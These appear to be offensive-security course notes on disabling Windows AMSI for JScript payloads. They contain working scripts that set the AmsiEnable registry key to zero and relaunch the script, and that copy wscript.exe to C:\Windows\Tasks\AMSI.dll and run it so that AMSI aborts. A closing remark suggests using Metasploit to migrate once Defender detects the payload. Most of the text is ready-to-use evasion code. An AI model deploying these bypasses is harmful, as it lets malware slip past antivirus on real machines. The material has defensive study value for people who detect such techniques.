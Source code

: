 # Detecting the AMSI API Flow

Test File
```javascript
WScript.Sleep(20000);

var WshShell = new ActiveXObject("WScript.Shell");
WshShell.Run("calc");
```

Run frida and investigate

#  Modify AmsiEnable registry key

JScript tries to query AmsiEnable registry key

If the key is equal to 0, AMSI won't start for the JScript process


#### Function in WScript
```csharp
JAmsi::JAmsiIsEnabledByRegistry
```

#### Disable Registry Key in JScript
```javascript
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\AmsiEnable";
sh.RegWrite(key, 0, "REG_DWORD");
```

#### Improved for registry key check
```javascript
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\AmsiEnable";

try {
	var AmsiEnable = sh.RegRead(key);
    if(AmsiEnable != 0) {
    		throw new Error(1, '');
    }
} catch(e) {
	sh.RegWrite(key, 0, "REG_DWORD");
    	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} " + WScript.ScriptFullName, 0 ,1);
    	sh.RegWrite(key, 1, "REG_DWORD");
    	WScript.Quite(1);
}
```

# Tricking AMSI

While we cannot locate any of the structures to interact with the Win32 APIs from Jscript, we know that AMSI requires AMSI.DLL. If we could prevent AMSI.DLL from loading or load our own version of it, we could force the AMSI implementation in wscript.exe to produce an error and abort.

The second important thing to note is that double-clicking or running a file with a .dll extension will fail since DLLs are normally loaded, not executed. This behavior is actually caused by the Win32 ShellExecute415 API, which is used by cmd.exe. 

However, if we instead use the CreateProcess416 Win32 API, the file extension is ignored and the file header would be parsed to determine if it is a valid executable. We cannot directly call this API, but we can use the Exec417 method of the WScript.Shell object since it’s just a wrapper for it. 

Implementing this AMSI bypass requires a few new actions. When the Jscript is executed, it will copy wscript.exe to a writable and executable folder, naming it “amsi.dll”. Then, it will execute this copy while supplying the original Jscript file as in the previous bypass.

We check for the existence of AMSI.dll with try and catch statements to determine if the Jscript file is being executed for the first or the second time.

#### Rename and execute wscript.exe to amsi.dll
```javascript
var filesys = new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try 
{
    if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll") == 0)
    {
        throw new Error(1, '');
    }
}
catch(e)
{
    filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
    sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} " + WScript.ScriptFullName);
    WScript.Quit();
}
```

Defender detects the malware but we can use metasploit to migrate immediately upon a new session

